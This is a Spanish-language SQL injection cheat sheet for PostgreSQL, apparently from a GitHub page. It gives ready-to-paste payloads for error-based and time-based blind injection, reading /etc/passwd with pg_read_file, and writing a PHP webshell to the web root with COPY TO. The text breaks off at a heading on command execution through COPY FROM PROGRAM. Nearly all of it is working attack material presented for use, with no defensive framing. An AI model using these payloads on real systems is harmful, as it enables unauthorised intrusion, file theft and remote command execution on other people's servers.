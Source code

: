 ### **1. Diferencias Clave en PostgreSQL**

-   **Soporta stacked queries (`;`)**, lo que facilita inyecciones avanzadas.
-   **Tiene funciones internas para ejecutar comandos en el sistema**, como `COPY FROM PROGRAM`.
-   **Es compatible con `UNION SELECT`, pero tiene su propio manejo de tipos de datos.**
-   **Usa `pg_sleep()` para inyección de tiempo.**
---

### **2. Enumeración de la Base de Datos**

Si podemos ejecutar consultas, pero no ver la respuesta en la interfaz, usamos **error-based** o **time-based**.

#### **a) Error-Based SQLi**

Forzamos un error para extraer información:
```
' UNION SELECT 1,2,3,(SELECT version()); --  
```
Otra forma es provocar un error intencionalmente con `CAST`:
```
' UNION SELECT 1,2,3,CAST((SELECT current_database()) AS INTEGER); --  
```
Si la aplicación muestra mensajes de error, puedes extraer datos directamente.

#### **b) Time-Based Blind SQLi**

Si no puedes ver la respuesta, prueba con `pg_sleep()`:
```
' OR (SELECT CASE WHEN (SUBSTRING((SELECT version()) FROM 1 FOR 1) = '1') THEN pg_sleep(5) ELSE pg_sleep(0) END); --  
```
Si la consulta tarda 5 segundos, significa que la versión de PostgreSQL comienza con "1".

---

### **3. Explotación Avanzada en PostgreSQL**

#### **a) Leer Archivos con `pg_read_file()`**

Si tienes los permisos adecuados, puedes leer archivos del servidor:
```
' UNION SELECT 1,2,3,pg_read_file('/etc/passwd', 0, 1000); --  
```
Esto extrae los primeros 1000 bytes de `/etc/passwd` en Linux.

#### **b) Escribir Archivos con `COPY TO`**

Si tienes permisos, puedes escribir un webshell en el servidor:
```
COPY (SELECT '<?php system($_GET["cmd"]); ?>') TO '/var/www/html/shell.php';
```
Esto crea un archivo `shell.php` que permite ejecutar comandos a través del navegador.

#### **c) Ejecutar Comandos con `COPY FROM PROGRAM`**
